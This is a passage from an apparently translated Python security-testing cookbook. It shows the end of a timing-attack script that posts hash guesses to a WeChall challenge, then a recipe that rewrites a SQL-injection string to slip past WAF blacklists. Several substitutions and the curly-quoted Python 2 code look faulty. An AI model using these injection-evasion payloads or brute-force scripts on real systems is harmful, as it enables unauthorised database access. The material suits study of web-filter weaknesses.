 ```
      rounded = str(round_down(benchmarked, 25))
      if rounded in values:
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
      else:
        print rounded
        rounded = str(“375”)
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
  submission = {'thehash': str(answer), 'mybutton': 'Enter'}
  submit = requests.post('http://www.wechall.net/challenge/blind_lighter/ index.php', data=submission, cookies=cookies)
  print “Attempt: “+str(y)
  print “Time taken: “+str(accum)
  y += 1
  for line in submit.text.splitlines():
    if “slow” in line:
      print line.strip(“<li>”)
    elif “wrong” in line:
      print line.strip(“<li>”)
  if “wrong” not in submit.text:
    print “possible success!”
    #subprocess.Popen([“beep”], shell=True)
```

# 编码有效载荷

停止 SQL 注入的一种方法是通过服务器端文本操作或**Web App 防火墙**（**WAFs**进行过滤。这些系统针对通常与攻击相关的特定短语，如`SELECT`、`AND`、`OR`和空格。通过用不太明显的值替换这些值，可以很容易地避免这些问题，从而在总体上突出黑名单问题。

我们将创建一个脚本，该脚本接受攻击字符串，查找可能转义的字符串，并提供替代攻击字符串。

## 怎么做…

以下是我们的脚本：

```
subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
for line in subs:
  print line
```
